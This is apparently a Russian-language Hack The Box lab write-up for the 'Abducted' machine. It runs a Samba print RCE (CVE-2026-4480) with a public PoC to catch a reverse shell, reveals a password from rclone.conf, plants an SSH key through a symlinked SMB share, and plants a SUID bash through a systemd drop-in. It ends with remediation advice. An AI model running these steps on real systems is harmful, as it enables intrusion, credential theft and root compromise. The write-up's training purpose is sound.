# Abducted
> **Дата:** 01.11.2026  
> **Целевой IP:** `10.129.133.86`  
> **Атакующий IP:** `10.10.17.178`  
> **Сложность:** Medium  
> **Платформа:** Hack The Box

В ходе выполнения лабораторной работы по тестированию на проникновение (HTB Abducted) была обнаружена и успешно эксплуатирована цепочка уязвимостей, приведшая к полному компрометированию системы. Основной вектор атаки — уязвимость в подсистеме печати Samba (**CVE-2026-4480**), позволившая выполнить произвольный код и получить reverse shell от пользователя `nobody`. Через конфигурационный файл `rclone.conf` были извлечены зашифрованные учётные данные, что дало доступ к пользователю `scott`. Далее, используя небезопасную конфигурацию SMB-шары (`force user = marcus`, `wide links = yes`), был осуществлён переход на пользователя `marcus`. Повышение привилегий до **root** выполнено через перезапись drop-in файла systemd для службы `smbd`.
**Ключевые уязвимости:**
- **CVE-2026-4480** — RCE в подсистеме печати Samba (неэкранированный параметр `%J`)
- **Небезопасная конфигурация SMB** — `force user` и `wide links`, позволяющие обойти ограничения доступа
- **Ошибка конфигурации systemd** — возможность записи в `/etc/systemd/system/smbd.service.d/`

---
## Разведка и анализ поверхности атаки
Первоначальное сканирование выявило открытые порты 22 (SSH), 139 и 445 (Samba). Анонимный доступ к SMB-шарам позволил обнаружить шару `HP-Reception`, предназначенную для печати.

```
nmap -sC -sV 10.129.133.86
```



_Сканирование портов и определение версий сервисов на целевой машине._

```
smbclient -L //10.129.133.86 -N
```



_Перечисление доступных SMB-шар с использованием анонимного доступа._

Для более глубокого анализа был установлен и использован инструмент **enum4linux-ng**:

```
enum4linux-ng -A 10.129.133.86
```



_Сбор информации о домене, пользователях и шарах через enum4linux-ng._

Анализ конфигурации Samba показал, что шара `HP-Reception` имеет параметр `printable = yes` и `guest ok = yes`, а также использует команду печати с неэкранированным параметром `%J`. Это соответствует уязвимости **[CVE-2026-4480](https://nvd.nist.gov/vuln/detail/cve-2026-4480)**.

## Эксплуатация: Получение первоначального доступа
### Проверка анонимного доступа к принтеру

```
smbclient //10.129.133.86/HP-Reception -N
```



_Успешное подключение к шаре принтера без аутентификации._

### Использование публичного PoC

Для эксплуатации был выбран публичный PoC от `TheCyberGeek`:

https://github.com/TheCyberGeek/CVE-2026-4480-PoC

Перед запуском скрипта необходимо установить библиотеку `python3-samba`:

```bash
sudo apt install python3-samba
```

_Установка зависимостей для работы эксплойта._

Запускаем слушатель:

```bash
nc -lvnp 4444
```

Запускаем эксплойт, указав целевой IP, наш IP и порт:

```bash
python3 exploit.py 10.129.133.86 10.10.17.178 4444
```





_Успешное выполнение эксплойта и получение reverse shell от пользователя `nobody`._

## Пост-эксплуатация и извлечение данных

После получения оболочки был выполнен поиск конфигурационных файлов, содержащих учётные данные:

```
find / -name "rclone.conf" 
```



_Поиск файла конфигурации rclone в файловой системе._

```
cat /opt/offsite-backup/rclone.conf 
```



_Чтение конфигурационного файла rclone. Обнаружен зашифрованный пароль._

**Найдено:** Зашифрованный пароль для пользователя `scott`.

Для расшифровки был установлен **rclone** (инструкция по установке: https://kb.shells.com/l/en-US/tutorials/Kali_Linux_Latest/rclone/).

```
https://kb.shells.com/l/en-US/tutorials/Kali_Linux_Latest/rclone/
```

_Расшифровка пароля с помощью `rclone reveal`._



**Получен пароль:** `iXzvcib3SrpZ`.

```
ssh scott@10.129.133.86
```



_Подключение к целевой машине по SSH с использованием найденных учётных данных пользователя `scott`._

## Боковое перемещение: Переход с scott на marcus

Анализ конфигурации Samba выявил небезопасные параметры для шары `transfer`:

```
cat /etc/samba/shares.conf
```



_Конфигурация SMB-шар. Для шары `transfer` указаны `force user = marcus` и `wide links = yes`._

**Шаг 1. Генерация SSH-ключей (на Kali):**

```bash
ssh-keygen -t rsa -f /tmp/marcus_key -N ""
```

**Шаг 2. Создание симлинка (в оболочке `scott` на целевой машине):**

```bash
ln -s /home/marcus /srv/transfer/keys
```



_Создание символической ссылки на домашнюю директорию пользователя `marcus`._

**Шаг 3. Загрузка ключа через SMB (на Kali):**

Копировать ключ нужно не в корень папки, а строго в директорию `.ssh`.

```bash
smbclient //10.129.133.86/transfer -U scott
```

Внутри `smbclient` выполняем:

text

```bash
cd keys
mkdir .ssh
cd .ssh
put /tmp/marcus_key.pub authorized_keys
ls 
exit
```



_Загрузка публичного ключа в директорию `.ssh` пользователя `marcus` через SMB-шару._

**Шаг 4. Вход под пользователем marcus (на Kali):**

```bash
ssh -i /tmp/marcus_key marcus@10.129.133.86
```

## Повышение привилегий до root

Под пользователем `marcus` было обнаружено членство в группе `operators`, что позволяет перезапускать службу `smbd`. Эксплуатация выполнена через создание drop-in файла systemd.

**Шаг 1. Поиск доступных для записи файлов systemd:**

```bash
find /etc/systemd -writable 2>/dev/null
```



_Результат: папка `/etc/systemd/system/smbd.service.d` доступна для записи._

**Шаг 2. Создание drop-in файла для службы smbd (в оболочке `marcus`):**

```bash
mkdir -p /etc/systemd/system/smbd.service.d/
cat > /etc/systemd/system/smbd.service.d/override.conf << EOF
[Service]
ExecStartPre=/bin/bash -c 'cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash'
EOF
```

**Шаг 3. Перезапуск службы и получение root:**

```bash
systemctl daemon-reload
systemctl restart smbd
```


_Перезапуск службы `smbd` с использованием модифицированного drop-in файла._

**Шаг 4. Запуск SUID-бинарника и чтение флага:**

```bash
/tmp/rootbash -p
```

```bash
cat /root/root.txt
```


_Получение привилегий суперпользователя и чтение финального флага._

**Флаг root найден** 

## Рекомендации по устранению уязвимостей

- **Samba (CVE-2026-4480):** Обновить Samba до последней версии. Убедиться, что параметр `%J` экранируется в командах печати. Ограничить анонимный доступ к принтерам.
- **Компрометация учетных данных:** Хранить конфигурационные файлы `rclone.conf` с ограниченными правами доступа (недоступными для `nobody`). Использовать менеджеры секретов вместо хранения зашифрованных паролей в открытом виде.
- **Небезопасная конфигурация SMB:** Избегать использования `force user` и `wide links` в шарах, доступных для записи. Ограничить доступ к шаре `transfer` только необходимыми пользователями.
- **Ошибка конфигурации systemd:** Ограничить права записи в `/etc/systemd/system/smbd.service.d/` только для пользователя `root`. Убрать пользователя `marcus` из группы `operators` или ограничить возможности группы.